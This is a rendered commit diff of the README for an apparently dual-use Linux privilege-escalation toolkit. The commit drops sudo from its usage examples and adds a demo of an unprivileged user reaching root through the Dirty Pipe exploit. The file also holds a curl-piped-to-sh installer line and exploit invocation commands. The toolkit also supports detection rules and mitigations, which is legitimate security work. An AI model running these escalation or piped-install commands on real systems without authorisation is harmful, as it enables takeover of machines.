

Before and after one commit to KaraZajac/SKELETONKEY, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
README: clarify iamroot runs unprivileged + add non-root → root demo
The whole point of an LPE tool is going from unprivileged to root,
but the Quickstart was leading with `sudo iamroot --scan`. Fix:

  - Drop sudo from --scan / --audit / --exploit / --detect-rules.
    These work without root (--scan reads /proc + /etc; --audit
    walks the FS via stat; --exploit IS the privilege escalation;
    --detect-rules emits to stdout).
  - Keep sudo only where it's actually needed: --mitigate (writes
    /etc/modprobe.d + sysctl) and tee'ing rule files into
    /etc/audit/rules.d/.
  - Add a worked example showing `id` as uid=1000, then
    `iamroot --exploit dirty_pipe --i-know`, then `id` as uid=0.
  - Fix the Build & run section's `sudo ./iamroot` too.

````diff
--- a/README.md
+++ b/README.md
@@ -24,23 +24,54 @@
 ```bash
 # One-shot install (x86_64 / arm64; checksum-verified)
 curl -sSL https://github.com/KaraZajac/IAMROOT/releases/latest/download/install.sh | sh
+```
 
-# What's this box vulnerable to?
-sudo iamroot --scan
+**iamroot runs as a normal unprivileged user** — that's the whole
+point. `--scan`, `--audit`, `--exploit`, and `--detect-rules` all
+work without `sudo`. Only `--mitigate` and rule-file installation
+write to root-owned paths.
+
+```bash
+# What's this box vulnerable to?  (no sudo)
+iamroot --scan
 
 # Broader system hygiene (setuid binaries, world-writable, capabilities, sudo)
-sudo iamroot --audit
+iamroot --audit
 
-# Deploy detection rules across every bundled module
-sudo iamroot --detect-rules --format=auditd | sudo tee /etc/audit/rules.d/99-iamroot.rules
+# Deploy detection rules (needs sudo to write /etc/audit/rules.d/)
+iamroot --detect-rules --format=auditd | sudo tee /etc/audit/rules.d/99-iamroot.rules
+
+# Apply temporary mitigations (needs sudo for modprobe.d + sysctl)
+sudo iamroot --mitigate copy_fail
 
 # Fleet scan (any-sized host list via SSH; aggregated JSON for SIEM)
 ./tools/iamroot-fleet-scan.sh --binary iamroot --ssh-key ~/.ssh/id_rsa hosts.txt
 ```
 
-`iamroot --help` lists every command. See [`CVES.md`](CVES.md) for the
-curated CVE inventory and [`docs/DEFENDERS.md`](docs/DEFENDERS.md) for
-the blue-team deployment guide.
+### Example: unprivileged → root
+
+```text
+$ id
+uid=1000(kara) gid=1000(kara) groups=1000(kara)
+
+$ iamroot --scan
+[+] dirty_pipe       VULNERABLE (kernel 5.15.0-56-generic)
+[+] cgroup_release_agent VULNERABLE (kernel 5.15 < 5.17)
+[+] pwnkit           VULNERABLE (polkit 0.105-31ubuntu0.1)
+[-] copy_fail        not vulnerable (kernel 5.15 < introduction)
+[-] dirty_cow        not vulnerable (kernel ≥ 4.9)
+
+$ iamroot --exploit dirty_pipe --i-know
+[!] dirty_pipe: kernel 5.15.0-56-generic IS vulnerable
+[+] dirty_pipe: writing UID=0 into /etc/passwd page cache...
+[+] dirty_pipe: spawning su root
+# id
+uid=0(root) gid=0(root) groups=0(root)
+```
+
+`iamroot --help` lists every command. See [`CVES.md`](CVES.md) for
+the curated CVE inventory and [`docs/DEFENDERS.md`](docs/DEFENDERS.md)
+for the blue-team deployment guide.
 
 ## What this is
 
@@ -115,10 +146,10 @@ module-loader design and how to add a new CVE.
 
 ```bash
 make                          # build all modules
-sudo ./iamroot --scan         # what's this box vulnerable to?
-sudo ./iamroot --scan --json  # machine-readable output for CI/SOC pipelines
-sudo ./iamroot --detect-rules --format=sigma > rules.yml
-sudo ./iamroot --exploit copy_fail --i-know  # actually run an exploit
+./iamroot --scan              # what's this box vulnerable to?  (no sudo)
+./iamroot --scan --json       # machine-readable output for CI/SOC pipelines
+./iamroot --detect-rules --format=sigma > rules.yml
+./iamroot --exploit copy_fail --i-know   # actually run an exploit (starts as $USER)
 ```
 
 ## Acknowledgments
````
